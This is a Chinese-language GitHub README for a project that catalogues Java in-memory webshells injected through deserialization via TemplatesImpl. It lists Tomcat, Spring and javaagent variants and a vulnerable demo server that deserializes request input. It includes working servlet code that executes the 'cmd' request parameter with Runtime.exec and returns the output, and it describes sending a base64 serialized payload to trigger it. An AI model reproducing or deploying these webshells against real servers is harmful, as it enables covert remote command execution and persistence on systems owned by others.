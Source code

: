 ## JavaMemShell
记录总结Java内存马的类型和相关代码示例

## 项目说明

**JavaMemShell**

利用Java反序列化时TemplatesImpl类加载字节码实现的内存马示例

**Server-Dmeo**

Spring 5.2.3 和Tomcat8服务端的Demo，接受参数进行反序列化，

## Java内存马类型

**tomcat** 

1. Filter型
2. Servlet型
3. Listener型
4. TomcatValue型

**spring**

1. controller型
2. Interceptor型

**javaagent**

1. 文件落地，持久化

## 核心代码

每种类型shell动态注册的执行逻辑在静态代码块中，由于反序列化需要，实现类需要继承`AbstractTranslet`

```java
static {
        try{
            xxx
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

获取request和response，执行命令并进行回显的逻辑在 `doFilter`，`requestDestroyed` ，`service`等方法中，如有需要自行替换，示例：

```java
public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        HttpServletRequest request = (HttpServletRequest)servletRequest;
        HttpServletResponse response =  (HttpServletResponse)servletResponse;

        String method = request.getMethod();
        if ("GET".equals(method)){
            String cmd = request.getParameter("cmd");
            if (cmd != null){
                Process process = Runtime.getRuntime().exec(cmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");;
                String output = s.hasNext() ? s.next() : "";
                PrintWriter writer = response.getWriter();
                writer.write(output);
                writer.flush();
                writer.close();
            }
        }
    }
```

## 测试

以springInterceptor内存代码为例，将生成序列化的base64代码发送到服务端

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653798985180-c6672740-00d3-4389-85d9-0e4f73cacb74.png)

执行命令：

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653799203090-f9ad191f-288d-4ecb-8a6d-6fdd0591405e.png)

